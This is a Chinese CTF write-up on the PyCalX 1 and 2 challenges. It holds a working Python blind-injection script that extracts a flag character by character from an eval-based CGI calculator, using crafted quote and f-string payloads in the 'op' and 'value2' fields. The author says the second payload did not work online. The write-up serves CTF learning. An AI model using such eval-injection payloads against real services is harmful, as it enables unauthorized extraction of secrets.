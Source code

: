 ```yaml
---
title: PyCalX 1和2
date: 2020-04-08
tags: [CTF, WP]
categories:
- [CTF, WP]
comments: false
---
```

# PyCalX 1和2

## 分析

首先是1,审计源码,souce可控,模拟sql注入改变操作

<!-- more -->

## exp

```
import requests
import time


url = 'http://44f679f2-1772-4584-b810-90c98139efc8.node3.buuoj.cn/'
flag = 'flag{'
url = url + "cgi-bin/pycalx.py"
while True:
    high = 127
    low = 1
    mid = (high + low) // 2
    while high > low:
        tmp = flag + chr(mid)
        data = {
            'value1': 'a',
            'op': '+\'',
            'value2': 'and FLAG>source#',
            'source': tmp
        }
        data2={
            'value1':'Tru',
            'op':'+f',
            'value2':'{101 if FLAG>source else 102:c}',
            'source':tmp
        }
        r = requests.get(url, data)
        print(chr(mid), end="")
        if r.status_code == 200:
            if 'True' in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (high + low) // 2
        else:
            time.sleep(1)
    flag += chr(mid-1)
    print(" | flag="+flag)
    if "}" in flag:
        break
print("flag="+flag)
```

## 分析

然后是2,进一步过滤了`''`所以利用python3的`F-strings`

```
'value1':'Tru',
'op':'+f',
'value2':'{101 if FLAG>source else 102:c}',
'source':'flag{a'
```

利用python3.6以后的特性`f'{中间可以加表达式}'`,当source为FLAG中字符时输出为Tru+101:c(就是字符e)组合成True,表示结果为false时输出Truf,再print会触发异常然后就会输出Invalid

然后就可以改变表达式来盲注,但是最终并没有复现出来

线上测试都为Invalid

本地测试

```
FLAG = "flag{test}"
source = "fla"
try:
    result = str(eval('Tru'+f'{101 if FLAG>source else 102:c}'))
    if result.isdigit() or result == 'True' or result == 'False':
        print(result)
    else:
        print("Invalid")  # Sorry we don't support output as a string due to security issue.
        print(1)
except:
    print("Invalid")
    print(2)
#输出结果为`True`
#当source="flb"时输出为
#Invalid
#2
```